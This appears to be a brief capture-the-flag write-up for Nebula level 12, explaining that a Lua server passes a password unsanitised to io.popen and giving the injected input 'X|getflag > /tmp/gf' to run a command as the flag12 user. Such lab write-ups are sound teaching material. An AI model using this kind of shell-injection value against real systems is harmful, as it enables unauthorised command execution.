 # Nebula - [LEVEL 12](https://exploit.education/nebula/level-12/)

Level Description:

![level.JPG](images/level.JPG)


# Nebula - [LEVEL 12](https://exploit.education/nebula/level-12/) - Solution

As we can see, The server runs the following line:
```lua
prog = io.popen("echo "..password.." | sha1sum", "r")
```

We can inject our command by sending the password ```X|getflag > /tmp/gf```.

Let's try it:

![flag.JPG](images/flag.JPG)

And we are successfully run ```getflag``` command as ```flag12``` user.